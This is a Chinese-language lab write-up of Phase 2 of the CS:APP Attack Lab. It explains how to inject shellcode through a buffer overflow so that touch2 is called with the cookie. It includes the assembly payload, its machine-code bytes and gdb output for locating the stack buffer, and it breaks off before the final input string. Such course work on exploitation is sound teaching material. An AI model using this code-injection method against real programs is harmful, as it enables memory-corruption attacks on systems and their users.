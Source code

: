 ## Phase 2

查看`touch2`的源代码

```c
void touch2(unsigned val) {
   vlevel = 2;
   if (val == cookie) {
      // ...
   }
   // ...
}
```

`touch2`与`touch1`不同之处在于前者接受一个无符号整数类型的参数, 而且要与`cookie`进行比较
所以我们必须先把 `cookie` 的值传给参数 `val`, 根据`x86-64`惯例,也就是寄存器`%rdi`

```asm
movq $0x59b997fa, %rdi
pushq $0x4017ec # touch2的地址
ret
```

这里首先将`cookie`保存到`%rdi`中, 然后将`touch2`的地址压栈,最后返回.这样就可以跳转到`touch2`并将`cookie`传入参数
将代码保存到文件`phase2.s`中, 然后转换成对应的机器码

```shell
gcc -c phase2.s
objdump -d phase2.o > phase2.byte
```

得到的机器码内容是

```asm
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          push   $0x4017ec
   c:   c3                      ret
```

和`phase1`的思路相同,将这段代码保存在输入缓冲区中,然后覆盖返回地址即可执行,为此需要知道缓冲区的地址

```c
(gdb) disassemble
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>: sub    $0x28,%rsp
=> 0x00000000004017ac <+4>: mov    %rsp,%rdi
   0x00000000004017af <+7>: call   0x401a40 <Gets>
   0x00000000004017b4 <+12>: mov    $0x1,%eax
   0x00000000004017b9 <+17>: add    $0x28,%rsp
   0x00000000004017bd <+21>: ret
End of assembler dump.
(gdb) display $rsp
1: $rsp = (void *) 0x5561dc78
```

所以得到我们的输入为
